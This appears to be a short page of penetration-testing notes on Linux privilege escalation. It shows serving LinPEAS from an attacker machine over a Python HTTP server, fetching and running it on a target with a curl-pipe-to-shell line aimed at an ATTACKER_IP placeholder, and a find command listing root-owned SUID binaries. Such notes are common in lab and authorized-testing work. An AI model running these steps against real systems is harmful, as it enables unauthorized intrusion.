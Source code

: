```yaml
---
description: Tools and methodology for Linux PrivEsc
---
```


# Linux

## 🔥 LinPEAS - Linux Privilege Escalation Awesome Script

When escalating privileges, one of the **fastest** ways to transfer and execute an enumeration script like `linpeas.sh` is using Python’s built-in HTTP server combined with `curl`.

***

#### &#x20;**📌 Attacker: Start a Simple Web Server**

Run the following command on your **attacking machine** to serve files from the current directory:

```bash
python3 -m http.server 80
```

#### &#x20;**📌 Victim: Download & Execute LinPEAS**

On the **target machine**, download and execute LinPEAS in one step:

```bash
curl <ATTACKER_IP>/linpeas.sh | sh
```

## 🛑 GTFOBins

{% embed url="https://gtfobins.github.io/" %}

### Find potentially vulnerable SUID binaries

find / -type f -perm -4000 -user root 2>/dev/null
